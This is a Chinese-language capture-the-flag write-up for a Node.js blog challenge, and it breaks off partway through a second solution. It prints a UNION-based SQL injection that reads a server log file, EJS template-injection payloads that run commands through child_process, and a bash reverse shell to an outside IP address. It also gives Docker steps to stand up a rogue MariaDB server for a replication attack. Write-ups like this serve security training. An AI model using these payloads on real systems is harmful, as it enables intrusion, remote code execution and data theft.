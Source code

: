 ```typescript
                        id: results[0].id,
                        title: results[0].title,
                        content: results[0].content
                    });
                }
            }
        });
    });
}
```
存在注入，不过有waf，不能写马。
## 解法一

```typescript
app.get("/console", (req, res) => {
    res.render("console");
});
```
有个类似于flask的console控制台，需要找到pin码。![微信截图_20230822185717.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1692701843915-1bd43e39-b548-405e-a5bc-4de8b07a062f.png#averageHue=%23b29165&clientId=ub3994fd0-cc3c-4&from=paste&height=104&id=ud932a107&originHeight=130&originWidth=961&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=13575&status=done&style=none&taskId=uf3674198-2529-44db-b609-b3f676b88e7&title=&width=768.8)
启动的时候，日志会记录内容。
```typescript
/post/-1%20union%20select%201,2,load_file(0x2f686f6d652f657a626c6f672f2e706d322f6c6f67732f6d61696e2d6f75742e6c6f67)/edit
```
```typescript
77a2aada-3254-478b-9cf4-8222fde080ce
```
![微信截图_20230822191317.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1692702806054-aa613732-c4d1-4eae-a39d-8719dfc6e4ca.png#averageHue=%23fafaf9&clientId=ub3994fd0-cc3c-4&from=paste&height=615&id=u83a67e6a&originHeight=769&originWidth=1914&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=58775&status=done&style=none&taskId=uf508c179-3cec-4e53-928e-6f6c4cec089&title=&width=1531.2)
有个sql任意执行
```typescript
SELECT "<%= global.process.mainModule.require('child_process').execSync('/readflag').tostring(); %>"
```
```typescript
select "<%= global.process.mainModule.require('child_process').exec("bash -c 'bash -i >& /dev/tcp/43.143.192.19/1145 0>&1'").toString(); %>"
```
## 解法二
主从复制法，
在自己的vps上搭个mysql。
师傅给的是用docker的方法搭建，我从头到尾搞一遍。
```java
sudo yum install -y yum-utils device-mapper-persistent-data lvm2
sudo yum-config-manager --add-repo https://download.docker.com/linux/centos/docker-ce.repo

sudo yum install docker-ce

sudo systemctl start docker
sudo systemctl enable docker//开机自启

sudo docker --version//验证是否开启

```
起mysql
```java
docker run -it -d --name some-mariadb --env MARIADB_USER=ctf --env MARIADB_PASSWORD=ctf --env MARIADB_ROOT_PASSWORD=123456 -p 53306:3306 mariadb:10.9.8
```
docker命令
```java
```